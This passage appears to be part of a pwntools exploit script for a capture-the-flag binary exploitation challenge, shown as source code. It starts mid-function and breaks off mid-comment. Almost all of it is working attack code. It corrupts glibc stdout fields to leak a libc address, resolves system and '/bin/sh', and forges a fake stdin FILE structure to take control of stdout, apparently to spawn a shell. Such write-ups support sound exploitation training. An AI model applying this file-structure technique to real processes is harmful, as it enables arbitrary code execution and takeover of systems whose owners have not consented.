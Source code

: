 ```python
        p.recv()
        p.sendline("1")
        p.recv()
        p.sendline(str(alloc_size))
        p.recv()
        p.sendline(str(read_size))
        p.recv()
        p.sendline(data)

def create2(alloc_size, read_size, data):
    p.sendline("1")
    p.sendline(str(alloc_size))
    p.sendline(str(read_size))
    p.sendline(data)

# Overwrite LSB of `_IO_read_end` in `stdout`
create1(0x200000, 0x5ed761, "A")

# Overwrite LSB of `_IO_write_base` in `stdout`
create2(0x200000, 0x5e6761 + 0x208010, "A")

# Have to recv for the remote, else it doesn't work???
if REMOTE:
    p.recv()

leak         = u64(p.recvline()[8:14].ljust(8, b'\x00'))
libc.address = leak - 0x3ed8b0
system       = libc.sym["system"]
bin_sh       = next(libc.search(b"/bin/sh"))
stdout       = libc.sym["_IO_2_1_stdout_"]
stdin        = libc.sym["_IO_2_1_stdin_"]
stdfile_lock = libc.sym["_IO_stdfile_1_lock"]
wide_data    = libc.sym["_IO_wide_data_1"]
io_str_jumps = libc.sym["_IO_str_jumps"]

log.info("LIBC leak: " + hex(leak))
log.info("LIBC base: " + hex(libc.address))
log.info("system@LIBC: " + hex(system))
log.info("/bin/sh: " + hex(bin_sh))
log.info("_IO_2_1_stdout_: " + hex(stdout))
log.info("_IO_2_1_stdin_: " + hex(stdin))

# Now that the stdout buffer has been cleared, we will actually receive the
# output from the program, so we use create1

# Overwrite the LSB of `_IO_buf_base` in `stdin`, third `fgets
create1(0x200000, 0x5e6761 + 0x208010 + 0x2002b8, "A")

# We can now overwrite 0x84 bytes of the `stdin` structure on the next `fgets`

# Overwriting the `stdin` file structure
fake  = p64(0xfbad208b) # _flags as they were before
fake += p64(stdin) # _IO_read_ptr (needs to be a valid pointer)
fake += p64(0) * 5 # _IO_read_end to _IO_write_end can all be 0
fake += p64(stdout) # _IO_buf_base, we are overwriting stdout
fake += p64(stdout + 0x2000) # _IO_buf_end, we can overwrite 0x2000 bytes
fake = fake.ljust(0x84, b"\x00") # 0x84 byte padding to get to the next `fgets`

# This is the fourth and final `fgets`
p.send(fake)

# We overwrote `_IO_buf_base` to `stdout`, and `_IO_buf_end` to `stdout+0x2000`
# so now we will be able to read 0x2000 bytes into the `stdout` structure when
```